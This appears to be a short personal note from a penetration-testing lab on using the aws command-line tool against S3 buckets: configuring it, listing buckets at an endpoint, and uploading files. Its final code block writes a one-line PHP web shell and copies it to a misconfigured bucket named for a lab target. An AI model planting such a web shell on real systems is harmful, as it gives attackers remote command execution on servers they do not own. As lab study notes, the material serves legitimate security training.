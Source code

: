 S3 Buckets
#############

Date: 2024-11-13 13:26

Status:

Tags:

Description
***************

The tool to interact with s3 buckets is ``aws`` install with :

.. code-block:: console

   sudo apt install aws

The aws utility must be configured first, but you can just add the value
``temp`` on all the interactive prompts, it stores the config in your
home directory sub folder ``.aws``

.. code-block:: console

   aws configure

To list all S3 buckets on a resource try:

.. code-block:: console

   aws --endpoint=http://<hostname> s3 ls

For mis-configured buckets, you can copy files to the bucket:

.. code-block:: console

   echo '<?php system($_GET["cmd"]); ?>' > shell.php
   aws --endpoint=http://<hostname> s3 cp shell.php s3://thetoppers.htb

References
************
https://docs.aws.amazon.com/AmazonS3/latest/userguide/website-hosting-custom-domain-walkthrough.html
https://github.com/sa7mon/S3Scanner

